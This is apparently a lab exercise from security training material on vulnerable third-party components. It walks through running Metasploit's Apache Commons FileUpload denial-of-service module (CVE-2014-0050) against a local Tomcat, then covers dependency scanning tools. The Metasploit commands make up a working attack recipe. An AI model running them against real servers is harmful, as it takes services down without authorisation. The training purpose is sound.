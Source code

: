 # Using Components with Known Vulnerabilities

We are lucky in the Java world that we don't depend on many 3rd party libraries. Yeah right!!! Projects often contain dozens if not hundreds of 3rd party jars. Using components with known vulnerabilites can make your application succeptable to exploitation. [Equifax and Struts](https://www.komando.com/happening-now/418420/how-to-check-if-your-personal-data-exposed-in-equifax-breach) anybody?

## Metasploit

1. Shutdown Spring Boot version of Wordy Ninja Blog.

2. Change directory to Apache Tomcat containing deployed version of Wordy Ninja Blog war.

```
cd cd ~/workspaces/apache-tomcat-8.0.1/ 
```

3. Start Tomcat.

```
bin/startup.sh
```

4. Visit [http://localhost:9090](http://localhost:9090) to make sure it is up.

5. Determine the version of tomcat running as if you were a hacker.

HINT: http://localhost:9090/docs/

6. Determine vulnerabilities for that specific version of Tomcat.

HINT: Google, http://cve.mitre.org/ or http://www.cvedetails.com/
HINT: https://www.cvedetails.com/cve/CVE-2014-0050/

7. Once you know the vulnerabilities that exist, use the CVE number to determine if you can exploit it.

HINT: Google CVE number
HINT: https://www.rapid7.com/db/modules/auxiliary/dos/http/apache_commons_fileupload_dos

8. In a new terminal window run top to determine how much CPU Tomcat/java is using.

NOTE: It maybe so small it might not even show up in the list.

9. In yet another new terminal window, launch Metasploit.

```
msfconsole
```

10. In the Metasploit console, tell it to use the module found earlier.

```
use auxiliary/dos/http/apache_commons_fileupload_dos
```

11. Show the actions for the module

```
show actions
```

In the case of this module, there is only the one default so nothing shows up in the list.

12. Show the options for the module.

```
show options
```

NOTE: we need to set the RHOST or the host we are going to attack to localhost and we need to change port to 9090 since that is the port Tomcat is listening on. Finally, the attack usually works between 50-100 requests so you can either run it twice or up the RLIMIT.

13. Set options.

```
set RHOST localhost
set RPORT 9090
```

14. Run module.

```
run
```

What happened to the Tomcat/java CPU? Is the website still accessible? If so, run it a couple more times and check again. Is the 50-200 requests enough for your monitoring to catch it?

15. Kill Tomcat.

```
kill -9 <pid>
```

## App Scan

How do you determine which libraries you may be using are vulnerable? You can scan the libraries.

1. Visit https://www.sonatype.com/appscan.

2. Register and download the scanning app.

3. Scan the Wordy Ninja Blog war or your own application jar/war. 

NOTE: Don't worry, the scanner only generates a hash from the artifacts and sends it back to Sonatype for comparison with their database. It does not provide  Sonatype access to your artifacts or source code.

4. Wait 24 hours for report.

5. Analyse report for vulnerabilities and licensing.

## Observations

* Keeping up with CVEs can take a lot of time. That's what interns are for. Just kidding.
* Scanning dependences or reviewing CVEs can produce false positives so take them with a grain of salt and validate. You may not be exposing the library or feature with the vulnerability.

## Solutions

* [Sonatype Appscan](https://www.sonatype.com/appscan)
* [Dependency Check](https://jeremylong.github.io/DependencyCheck/)